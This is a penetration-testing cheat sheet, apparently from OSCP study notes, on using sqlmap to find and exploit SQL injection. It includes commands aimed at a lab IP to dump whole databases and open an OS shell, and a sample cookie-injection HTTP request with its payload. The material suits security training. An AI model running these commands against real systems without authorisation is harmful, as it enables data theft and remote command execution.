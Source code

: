 ## sqlmap - SQL Injection Automator

### DO NOT USE ON OSCP EXAM

This tool will identify and exploit SQL injection vulnerabilities against various database engines.

- To use, specify the URL you wish to scan, including an example of the parameters, and specify which parameter to test.

  ```bash
  sqlmap -u http://192.168.216.10/debug.php?id=1 -p "id"
  
  # Options
  -u	# Specify the full URL with parameters
  -p	# Specify the parameter to investigate.
  ```

The process may stop at one point without any prompt.  If you hit 'enter' it will ask if you wish to continue testing for certain risk values.  Answer this and the scan will continue and present more prompts.

- To dump all the tables to stdout and a CSV file:

  ```bash
  sqlmap -u http://192.168.216.10/debug.php?id=1 -p "id" --dbms=mysql --dump
  
  # Options
  --dbms=mysql	# Specifies MySQL/MariaDB as the backend type
  --dump			# Dumps the contents of all tables in the DB
  ```

- To execute a shell on the system:

  ```bash
  sqlmap -u http://192.168.216.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell
  ```


### Cookie Injections

If the parameter is located in a cookie and not in the URL, you will need to get a copy of a GET Request with the cookie in it, then figure out where the SQL Injection vulnerability exists and mark it with an `*`.  Save that in a file and feed it to sqlmap.

Example Get Request (note the asterisk marked in the 'Cookie' line):

```html
GET / HTTP/1.1
Host: sandbox.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wp_sap=["1650149780')) OR 1=2 *#"];
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Test with this command:

```bash
sqlmap -r getrequest.txt --level 2 --dbms=mysql -p"wp_sap"

# Options
-r	# GET Request
--level 2	# Level 2 tells it to try injections in cookies, is redundant with the * marker
--dbms=mysql	# Just tests for MYSQL commands
-p"wp_sap"	# Tells it specifically what parameter to test, but is redundant with the * marker
```

Once you know it's injectable, you can run other commands.

```bash
# Enumerate tables from Database EXAMPLE.  You don't need to specify the database if there's only one.
sqlmap -r getrequest.txt --level 2 --dbms=mysql -p"wp_sap" -D'EXAMPLE' --tables

# Enumerate columns from table SAMPLE
sqlmap -r getrequest.txt --level 2 --dbms=mysql -p"wp_sap" -T'SAMPLE' --columns

# Get data from a table SAMPLE, column COL1
sqlmap -r getrequest.txt --level 2 --dbms=mysql -p"wp_sap" -T'SAMPLE' --dump-all
```





### Links:

Cookie SQL Injections - https://corenumb.wordpress.com/2012/06/09/mysql-injection-trough-cookies/